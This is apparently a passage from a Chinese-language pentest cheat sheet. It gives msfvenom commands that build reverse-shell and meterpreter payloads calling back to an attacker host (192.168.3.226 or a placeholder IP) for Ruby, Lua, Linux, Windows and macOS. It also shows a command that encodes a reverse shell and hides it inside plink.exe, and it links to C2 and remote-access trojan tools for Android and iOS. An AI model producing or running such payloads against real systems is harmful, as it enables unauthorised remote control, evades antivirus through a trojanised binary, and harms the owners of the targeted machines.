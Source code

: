 **Ruby**
```bash
msfvenom -p ruby/shell_reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f raw -o payload.rb
```

**Lua**
```bash
msfvenom -p cmd/unix/reverse_lua LHOST=192.168.3.226 LPORT=8888 -f raw -o payload.lua
```

### shellcode

**linux based shellcode**
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f <language>
```

**windows based shellcode**
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f <language>
```

**mac based shellcode**
```bash
msfvenom -p osx/x86/shell_reverse_tcp lhost=your-ip lport=your-port -f <language>
```

---

## msfencode

```bash
msfvenom windows/shell_reverse_tcp lhost=your-ip lport=your-port R -e x86/shikata_ga_nai -t exe -c -9 -x /usr/share/windows-binaries/plink.exe(载体) -o ./shell.exe
```

---

# C2-RAT

**工具**
- [trustedsec/trevorc2](https://github.com/trustedsec/trevorc2) - 走 HTTP 的 C2
- [AhMyth/AhMyth-Android-RAT](https://github.com/AhMyth/AhMyth-Android-RAT) - 用于 android 的 RAT
- [neoneggplant/EggShell](https://github.com/neoneggplant/EggShell) - 用于 iOS/macOS/Linux 的 RAT
